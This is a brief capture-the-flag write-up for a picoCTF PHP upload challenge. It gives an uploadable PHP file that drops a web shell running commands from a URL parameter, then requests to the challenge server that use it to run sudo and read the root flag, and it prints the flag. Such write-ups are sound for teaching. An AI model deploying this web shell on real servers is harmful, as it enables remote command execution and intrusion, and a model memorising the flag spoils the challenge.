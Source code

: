 # Solution

- Upload this RCE 

```php
<?php file_put_contents("shell.php", "<?php system(\$_GET['cmd']); ?>"); ?>
```

- Then access via

```
http://standard-pizzas.picoctf.net:63054/uploads/shell.php?cmd=sudo%20-l
```

- Then

```
http://standard-pizzas.picoctf.net:63054/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

- `picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

---
